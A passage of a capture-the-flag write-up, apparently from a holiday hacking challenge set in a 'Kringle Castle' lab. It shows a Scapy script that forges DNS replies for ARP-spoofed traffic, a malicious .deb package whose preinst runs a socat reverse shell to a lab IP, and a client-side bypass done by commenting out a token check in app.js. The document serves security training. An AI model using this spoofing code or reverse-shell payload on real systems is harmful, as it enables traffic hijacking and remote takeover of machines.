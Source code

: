 ```python
    udp = UDP(dport=packet[UDP].sport, sport=53)        # need to replace ports
    dns = DNS(
        qr = 1,
        ra = 1,
        id = 0x01,
        ancount = 1,
        qd = packet[DNSQR],
        an = DNSRR(rrname=packet[DNSQR].qname, rdata=ipaddr)
    )
    dns_response = eth / ip / udp / dns
    sendp(dns_response, iface="eth0")
def main():
    berkeley_packet_filter = " and ".join( [
        "udp dst port 53",                              # dns
        "udp[10] & 0x80 = 0",                           # dns request
        "dst host {}".format(ipaddr_we_arp_spoofed),    # destination ip we had spoofed (not our real ip)
        "ether dst host {}".format(macaddr)             # our macaddress since we spoofed the ip to our mac
    ] )

    # sniff the eth0 int without storing packets in memory and stopping after one dns request
    sniff(filter=berkeley_packet_filter, prn=handle_dns_request, store=0, iface="eth0", count=1)

if __name__ == "__main__":
    main()
```

Then, following the instructions on [Wannes Colman’s Blog](http://www.wannescolman.be/?p=98), I created a deb file with a preinst script that contained 

```
socat tcp-connect:10.6.0.3:6969 exec:/bin/sh,pty,stderr,setsid,sigint,sane.
```

That file was hosted with Python 3 HTTP server (`python3 http.server 80`) to match the request path:  `GET /pub/jfrost/backdoor/suriv_amd64.deb`. This gave me a reverse shell.

Reading through the `/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt` file, the answer `Tanta Kringle` was found.

### Defeat Fingerprint Sensor

To bypass the fingerprint sensor, I used Chrome’s dev debugging tools. Inside the console, I commented out the token check. This let me execute and create the appropriate request to get to the target floor.

The code for the token check was inside of  `Sources > elevator.kringlecastle.com/app.js`.

```
if (btn4.classList.contains('powered')) { 
      /* we comment out the token check && hasToken('besanta')) { */
      $.ajax({
        type: 'POST',
        url: POST_URL,
        dataType: 'json',
        contentType: 'application/json',
        data: JSON.stringify({ 
          targetFloor: '3',
          id: getParams.id,
        }),
```
